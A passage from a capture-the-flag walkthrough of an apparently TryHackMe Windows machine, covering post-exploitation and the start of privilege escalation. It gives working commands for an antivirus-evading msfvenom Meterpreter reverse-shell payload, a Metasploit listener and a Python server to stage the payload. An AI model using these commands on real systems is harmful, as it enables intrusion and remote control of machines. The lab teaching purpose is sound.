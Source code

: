 And... **boom!** Got the reverse shell back:

![image](https://github.com/user-attachments/assets/9e6bc915-db95-4347-bcd8-d57eeb0c8c3e)

### Step 3: Post Exploitation

#### User Flag.txt

We begin by retrieving the `user.txt` file from the compromised system:

```powershell
cat 'C:\Users\bruce\Desktop\user.txt'
```



![image](https://github.com/user-attachments/assets/d78864b1-d5c9-46fc-a42c-bec8cfbff9f8)


### Step 4: Privilege Escalation

#### Switching to Meterpreter

To make privilege escalation easier and more efficient, let’s upgrade to a **Meterpreter shell** using a custom payload.

Generate the payload with `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<your-ip> LPORT=<your-port> -f exe -o shell-test.exe
```

This payload uses the `x86/shikata_ga_nai` encoder to help evade antivirus detection.

#### Setting Up the Handler

Start **Metasploit Framework Console**:

```bash
msfconsole -q
```

Configure the handler:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-thm-ip>
set LPORT 5555
run
```

#### Delivering the Payload

Now, we need to transfer the `shell-test.exe` file to the target. From the directory where your payload is saved (e.g., `/home/user`), run a simple Python server:

```bash
python3 -m http.server
```
